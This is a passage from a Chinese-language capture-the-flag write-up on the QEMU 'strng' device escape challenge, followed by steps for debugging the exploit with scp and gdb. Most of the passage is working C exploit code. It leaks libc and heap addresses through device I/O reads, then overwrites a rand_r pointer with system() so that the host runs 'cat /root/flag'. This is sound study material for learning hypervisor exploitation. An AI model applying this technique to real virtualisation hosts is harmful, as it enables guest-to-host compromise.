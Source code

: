 ```c

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

    printf("mmio_mem @ %p\n", mmio_mem);
    
    mmio_write(8,0x20746163);
    mmio_write(12,0x6f6f722f);
    mmio_write(16,0x6c662f74);
    mmio_write(20,0x6761);

    // Open and map I/O memory for the strng device
    if (iopl(3) !=0 )
        die("I/O permission is not enough");


    // leaking libc address 
    uint64_t srandom_addr=pmio_arbread(0x108);
    srandom_addr=srandom_addr<<32;
    srandom_addr+=pmio_arbread(0x104);
    printf("leaking srandom addr: 0x%llx\n",srandom_addr);
    uint64_t libc_base= srandom_addr-0x43bb0;
    uint64_t system_addr= libc_base+0x4f440;
    printf("libc base: 0x%llx\n",libc_base);
    printf("system addr: 0x%llx\n",system_addr);

    // leaking heap address
    uint64_t heap_addr=pmio_arbread(0x1d0);
    heap_addr=heap_addr<<32;
    heap_addr+=pmio_arbread(0x1cc);
    printf("leaking heap addr: 0x%llx\n",heap_addr);
    uint64_t para_addr=heap_addr+0x39c7c;
    printf("parameter addr: 0x%llx\n",para_addr);

    // overwrite rand_r pointer to system
    pmio_abwrite(0x114,system_addr&0xffffffff);

    mmio_write(0xc,0);    
}
```

## 调试

可以在本机把exp写好，然后用` scp -P5555 exp ubuntu@127.0.0.1:/home/ubuntu `把exp上传到`qemu虚拟机`里,然后本机
```c
sudo gdb attach `pidof qemu-system-x86_64`
```

在相对应的函数处下断点，最后在qemu虚拟机里面`sudo ./exp`就可以调试了:happy:

## 总结
